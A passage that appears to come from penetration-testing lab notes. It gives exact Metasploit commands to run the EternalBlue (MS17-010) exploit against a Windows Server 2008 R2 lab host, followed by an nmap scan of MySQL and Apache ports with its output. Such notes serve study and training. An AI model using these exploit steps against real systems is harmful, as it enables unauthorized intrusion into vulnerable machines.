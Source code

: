- *If no account credentials can be found*, use the **EternalBlue vulnerability** exploit since the system target is a Win Server 2008 R2

```bash
msfconsole -q
```

```bash
use exploit/windows/smb/ms17_010_eternalblue
options
set RHOSTS 10.2.26.45
run
```

![](4-exploitationassets/image-20230424122329479.png)

### MySQL

```bash
nmap -sV -sC -p 3306,8585 10.2.26.45
```

```bash
3306/tcp open  mysql   MySQL 5.5.20-log
8585/tcp open  http    Apache httpd 2.2.21 ((Win64) PHP/5.3.10 DAV/2)
```
